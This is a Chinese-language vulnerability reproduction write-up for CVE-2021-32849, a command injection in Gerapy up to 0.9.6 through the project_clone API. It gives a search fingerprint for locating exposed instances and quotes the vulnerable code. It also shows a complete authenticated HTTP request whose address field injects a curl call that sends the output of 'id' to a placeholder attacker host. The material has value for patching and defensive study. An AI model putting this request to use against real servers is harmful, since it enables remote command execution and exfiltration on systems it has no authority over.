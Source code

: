 # Gerapy clone 后台远程命令执行漏洞 CVE-2021-32849

## 漏洞描述

近日，我司应急团队监测到关于Gerapy 0.9.6和之前的版本中存在注入漏洞，漏洞编号：CVE-2021-32849，该漏洞源于程序没有正确清理通过project_clone端点传递给Popen的输入，攻击者可利用该漏洞执行任意命令。

## 漏洞影响

```
Gerapy <= 0.9.6
```

## 网络测绘

```
title="Gerapy"
```

## 漏洞复现

登录页面

![image-20220524145040847](images/202205241450895.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![](images/202205241450608.png)

```
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_clone(request):
    """
    clone project from github
    :param request: request object
    :return: json
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        address = data.get('address')
        if not address.startswith('http'):
            return JsonResponse({'status': False})
        address = address + '.git' if not address.endswith('.git') else address
        cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
        logger.debug('clone cmd %s', mcd)
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
        stdout, stderr = bytes2str(p.stdout.read()), bytes2str(p.stderr.read())
        logger.debug('clone run result %s', stdout)
        if stderr: logger.error(stderr)
        return JsonResponse({'status': True}) if not stderr else JsonResponse({'status': False})
```

这里可以看到 address参数 为可控参数，拼接到 cmd中使用 Popen命令执行，构造请求包

```
POST /api/project/clone HTTP/1.1
Host: 
Content-Length: 61
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"address":"http://127.0.0.1;curl xxx.xxx.xxx.xxx:9999?`id`"}
```

![](images/202205241451576.png)
